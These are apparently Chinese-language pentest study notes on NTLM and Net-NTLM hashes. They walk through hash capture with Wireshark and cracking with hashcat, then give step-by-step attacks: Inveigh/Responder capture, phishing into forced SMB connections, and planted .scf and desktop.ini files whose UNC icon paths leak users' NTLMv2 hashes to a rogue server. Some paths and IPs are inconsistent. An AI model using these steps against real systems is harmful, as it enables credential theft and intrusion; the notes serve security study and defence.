


# NTLM


## NTLM与Hash

### 概念

分为NTLM与Net-NTLMv1/v2（NTLMv1/v2），其中NTLMv1/v2为Net-NTLMv1/v2缩写。

#### NTLM hash

##### 概念及格式

通常存放在Windows系统下SAM文件中，或域控的NTDS.dit文件中。

Windows的系统密码hash默认情况下一般由两部分组成：第一部分是LM-hash（LAN Manager Hash），第二部分是NTLM-hash（NT LAN Manager Hash）。

格式如下：

```bash
#LM hash:NT hash
aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
```

PS：

自Windows Vista和Windows Server 2008开始,Windows取消LM hash。但某些工具的参数需要填写固定格式`LM hash:NT hash`，可以将LM hash填0(LM hash可以为任意值)，即`00000000000000000000000000000000:NT hash`


##### NTLM hash的生成方法

1. 将明文口令转换成十六进制的格式
2. 转换成Unicode格式，即在每个字节之后添加0x00
3. 对Unicode字符串作MD4加密，生成32位的十六进制数字串

如：

用户密码为`test123`

转换成十六进制的格式为`74657374313233`

转换成Unicode格式为`7400650073007400310032003300`

对字符串`7400650073007400310032003300`作MD4加密，结果为`c5a237b7e9d8e708d8436b6148a25fa1`


#### Net-NTLM hashes

##### 概念及格式

Net-NTLM用于网络认证，基于challenge/response 算法和NT hash产生的。

NetNTLMv1 / NetNTLMv1+ESS格式如下：

```
u4-netntlm::kNS:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```

Net-NTLMv2格式如下：

```bash
#username::domain:challenge:HMAC-MD5:blob
#challenge为NTLM Server Challenge
#domian由数据包内容获得(IP或者机器名)
#HMAC-MD5对应数据包中的NTProofStr
#blob对应数据包中Response去掉NTProofStr的后半部分

admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030
```





##### 认证流程

NTLM认证采用质询/应答（Challenge/Response）的消息交换模式，流程如下：

1. 客户端向服务器发送一个请求，请求中包含明文的登录用户名。服务器会提前存储登录用户名和对应的密码hash
2. 服务器接收到请求后，生成一个16位的随机数(这个随机数被称为Challenge),明文发送回客户端。使用存储的登录用户密码hash加密Challenge，获得Challenge1
3. 客户端接收到Challenge后，使用登录用户的密码hash对Challenge加密，获得Challenge2(这个结果被称为response)，将response发送给服务器
4. 服务器接收客户端加密后的response，比较Challenge1和response，如果相同，验证成功

在以上流程中，登录用户的密码hash即`NTLM hash`，response中包含`Net-NTLM hash`

在NTLM认证中，NTLM响应分为NTLM v1，NTLMv2，NTLM session v2三种协议，不同协议使用不同格式的Challenge和加密算法。所以也就存在不同协议的Net-NTLM hash，即Net-NTLM v1 hash，Net-NTLM v2 hash。


##### 抓包与破解

1、抓包

服务器：

- IP： 192.168.62.139
- 登录用户名： a
- 登录密码： test123

客户端：

- IP： 192.168.62.130

客户端通过命令行远程连接服务器，命令如下：

```
net use \\192.168.52.139 /u:a test123
```

客户端运行Wireshark，捕获数据包。

2、提取NTLMv2 hash

在wireshark中，使用ntlmssp过滤。根据格式摘取，得到完整的NTLMv2数据如下：

```
a::192.168.62.139:c0b5429111f9c5f4:a5f1c47844e5b3b9c6f67736a2e1916d:0101000000000000669dae86ba8bd301a9134eee81ca25de0000000002001e00570049004e002d003100550041004200430047004200470049005500330001001e00570049004e002d003100550041004200430047004200470049005500330004001e00570049004e002d003100550041004200430047004200470049005500330003001e00570049004e002d003100550041004200430047004200470049005500330007000800669dae86ba8bd30106000400020000000800300030000000000000000000000000300000e9d9e613613097d1e2f47c1fd97fa099f65dfd78075d8bdb5ca162492ea5d2990a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00360032002e00310033003900000000000000000000000000
```

3、破解

使用hashcat

为便于测试，新建字典文件`password.list`，字典内容为`test123`

```shell
hashcat -m 5600 a::192.168.62.139:c0b5429111f9c5f4:a5f1c47844e5b3b9c6f67736a2e1916d:0101000000000000669dae86ba8bd301a9134eee81ca25de0000000002001e00570049004e002d003100550041004200430047004200470049005500330001001e00570049004e002d003100550041004200430047004200470049005500330004001e00570049004e002d003100550041004200430047004200470049005500330003001e00570049004e002d003100550041004200430047004200470049005500330007000800669dae86ba8bd30106000400020000000800300030000000000000000000000000300000e9d9e613613097d1e2f47c1fd97fa099f65dfd78075d8bdb5ca162492ea5d2990a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00360032002e00310033003900000000000000000000000000 /tmp/password.list -o found.txt --force
```

其中

-m： hash-type，5600对应NetNTLMv2，详细参数可查表：<https://hashcat.net/wiki/doku.php?>

-o： 输出文件

字典文件：/tmp/password.list

--force代表强制执行，测试系统不支持Intel OpenCL

成功破解出登录的明文密码


### 攻击方法

#### Pass The Hash获取NTLM Hash及破解

https://xianzhi.aliyun.com/forum/topic/1802

https://en.wikipedia.org/wiki/Pass_the_hash


位置：

通常可从Windows系统中的SAM文件和域控的NTDS.dit文件中获得所有用户的hash，通过Mimikatz读取lsass.exe进程能获得已登录用户的NTLM hash

SAM文件的位置：

1. C:\WINDOWS\repair\SAM（帐户数据库的备份文件）
2. C:\WINDOWS\system32\config\SAM（系统正在使用的帐户数据库文件）


#### 中间人攻击获取Net-NTLM hash

工具：

Responder：https://github.com/lgandx/Responder

Inveigh：<https://github.com/Kevin-Robertson/Inveigh>

服务端运行：

```
Import-Module .\Inveigh.psd1
Invoke-Inveigh -consoleoutput Y
```

当客户端通过命令行远程连接服务器时，Inveigh即可捕获到Net-NTLM hash


#### 强制SMB连接获取Net-NTLM hash

原理：

通过多种方式强制目标客户端向伪造的服务器发起SMB连接，在伪造的服务器上捕获数据包，获得Net-NTLM hash

对于SMB协议，客户端在连接服务端时，默认先使用本机的用户名和密码hash尝试登录

连接方式如在地址栏访问`\\192.168.62.130`

具体利用方式如：

发送钓鱼邮件，用户打开邮件时会隐蔽访问伪造的服务器，服务器通过捕获数据包就能获得目标当前用户的Net-NTLM hash，进一步破解还原出明文密码


#### 图标文件获取NTLMv2 Hash

通过修改文件服务器上的图标文件，强制用户访问伪造的文件服务器，在伪造的文件服务器上抓包获取连接文件服务器的NTLMv2 Hash。

##### SCF文件攻击

添加scf文件强制用户访问伪造的文件服务器

SCF文件是"WINDOWS资源管理器命令"文件，是一种可执行文件,该类型文件由Windows Explorer Command解释，标准安装

包含三种类型：

- Explorer.scf(资源管理器)
- Show Desktop.scf(显示桌面)
- View Channels.scf（查看频道）

格式示例：

```
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

IconFile属性支持UNC路径，也就是说，可以指定文件服务器上的某个文件，例如`IconFile=\\192.168.62.130\test\explorer.exe,3`

特别的地方： 使用Explore.exe打开包含该文件的路径时，由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标，如果图标位于文件服务器，就会访问该文件服务器

直观理解： 打开某一文件夹，该文件夹下面包含scf文件，scf文件的IconFile属性指向文件服务器，本机会自动访问该文件服务器，在访问过程中，默认先使用本机的用户名和密码hash尝试登录。如果文件服务器抓取数据包，就能够获得NTLMv2 Hash

###### 利用过程：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135

1、正常文件服务器共享目录下添加文件test.scf，内容如下：

```
[Shell]
Command=2
IconFile=\192.168.62.130\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

注：

IconFile指向伪造文件服务器，test.ico不存在

2、在伪造文件服务器上使用wireshark进行抓包

3、客户端访问正常文件服务器

4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

##### 文件夹图标攻击

修改文件夹图标强制用户访问伪造的文件服务器

选中`文件夹`-`右键`-`属性`-`自定义`-`更改图标`，更好后，在文件夹子目录生成文件desktop.ini，格式如下：

```
[.ShellClassInfo]
IconResource=C:\Windows\system32\SHELL32.dll,3
[ViewState]
Mode=
Vid=
FolderType=Generic
```

尝试将IconResource属性替换为UNC路径，路径为`IconResource=\\192.168.62.130\test\SHELL32.dll,3`

###### 利用过程：

实际测试：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135

1、正常文件服务器共享目录的test文件夹下添加文件desktop.ini，内容如下：

```
[.ShellClassInfo]
IconResource=\192.168.62.130\test\SHELL32.dll,4
[ViewState]
Mode=
Vid=
FolderType=Generic
```

注：

IconResource指向伪造文件服务器，SHELL32.dll不存在

2、在伪造文件服务器上使用wireshark进行抓包

3、客户端访问正常文件服务器

4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash


##### 系统文件夹图标后门

更改系统文件夹的配置文件desktop.ini，当用户打开指定文件夹时，将本机当前用户的NTLMv2 Hash发送至伪造文件服务器

默认情况下，系统常见文件夹下包含配置文件desktop.ini，例如文件夹`Program Files`，desktop.ini内容如下：

```
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21781
```

尝试对其修改，添加如下内容：

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

注：无需添加文件，但需要管理员权限

###### 利用过程：

客户端IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

1、修改客户端文件，路径为C:\Program Files\desktop.ini，添加内容

```
IconResource=\192.168.62.130\test\SHELL32.dll,4
```

注：IconResource指向伪造文件服务器，SHELL32.dll不存在

2、在伪造文件服务器上使用wireshark进行抓包

3、客户端访问文件夹c:\

4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash


##### 防御思路

检查特殊文件.scf和desktop.ini，避免被添加UNC路径

如无特殊需要，建议配置防火墙规则禁止139和445端口


#### netsh抓取获得NTLMv2 Hash

服务端cmd下的抓包

1、管理员权限下运行：

```shell
netsh trace start capture=yes persistent=yes traceFile="c:\\test\\snmp1.etl" overwrite=yes correlation=no protocol=tcp ipv4.address=192.168.62.130 keywords=ut:authentication
```

参数说明：

- capture=yes： 开启抓包功能
- persistent=yes： 系统重启不关闭抓包功能，只能通过Netsh trace stop关闭
- traceFile： 指定保存记录文件的路径
- overwrite=yes： 如果文件存在，那么对其覆盖
- correlation=no： 不收集关联事件
- protocol=tcp： 抓取TPC协议
- ipv4.address=192.168.62.130： 限定只抓和服务器IP相关的数据包
- keywords=ut:authentication： 关键字为ut:authentication

加上以上限定参数是为了尽可能减小数据包大小，只筛选出SMB协议中同NTLMv2认证有关的内容

2、结束抓包：

```
Netsh trace stop
```

3、将其转换成.cap格式

windows message analyzer下载地址：

<https://www.microsoft.com/en-us/download/confirmation.aspx?id=44226>

安装后打开etl文件，等待文件识别，识别成功后界面左下角提示`Ready`，然后`File`-`Save as`-`Export`，保存成cap包格式


#### NTLM中继

使用NTLM中继和Deathstar获取域管理员权限

http://www.freebuf.com/sectool/160884.html


## 工具：

minikatz

https://github.com/gentilkiwi/mimikatz

http://blog.gentilkiwi.com/mimikatz

hashcalc

http://www.slavasoft.com/hashcalc/

hashcat

https://github.com/hashcat/hashcat


使用Volume Shadow Copies技术获取了NTDS.dit和system.hive这两个文件。

metasploit, fgdump, pwdump


## 资料：

LAN_Manager wiki：

https://en.wikipedia.org/wiki/LAN_Manager

NT_LAN_Manager wiki：

https://en.wikipedia.org/wiki/NT_LAN_Manager

Windows下的密码hash——NTLM hash和Net-NTLM hash介绍

https://xianzhi.aliyun.com/forum/topic/1943

Practical guide to NTLM Relaying in 2017 (A.K.A getting a foothold in under 5 minutes)

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

The NTLM Authentication Protocol and Security Support Provider

http://davenport.sourceforge.net/ntlm.html

介绍一下神器mimikatz，从lsass里抓密码

https://www.nigesb.com/introduction-of-mimikatz.html

Example hashes

https://hashcat.net/wiki/doku.php?id=example_hashes

利用图标文件获取连接文件服务器的NTLMv2 Hash

https://xianzhi.aliyun.com/forum/topic/1977

利用netsh抓取连接文件服务器的NTLMv2 Hash

https://xianzhi.aliyun.com/forum/topic/1945

SMB Share – SCF File Attacks

https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

渗透测试技巧之利用SCF文件偷取WINDOW NTLM AUTH HASH

https://xianzhi.aliyun.com/forum/topic/1624

Invoke-TheHash

https://github.com/Kevin-Robertson/Invoke-TheHash
